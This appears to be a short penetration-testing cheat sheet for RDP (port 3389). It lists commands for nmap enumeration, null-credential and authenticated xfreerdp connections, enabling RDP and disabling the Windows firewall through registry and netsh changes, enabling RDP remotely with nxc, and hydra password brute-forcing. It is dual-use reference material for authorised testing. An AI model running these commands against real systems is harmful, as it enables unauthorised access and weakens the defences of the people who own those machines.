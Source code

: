 ## 3389

* Enumeration

```
nmap -p 3389 --script rdp-enum-encryption $IP
```

* Connect with null creds

```
xfreerdp /V:$IP -sec-nla /cert-ignore +clipboard
```

* Connect 

```
xfreerdp /V:$IP /u:user /p:password +clipboard /cert-ignore /dynamic-resolution
```

* Enable RDP
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f
```

```
netsh advfirewall set allprofiles state off
```

* OR

```
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
```

```
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d 0x00000001 /f
```

```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

* OR via nxc

```
nxc smb $IP -u Administrator -p password -M rdp -o ACTION=enable
```

* BruteForce

```
hydra -l username -P passwords.txt $IP rdp
```

```
hydra -L users.txt -p password $IP rdp
```
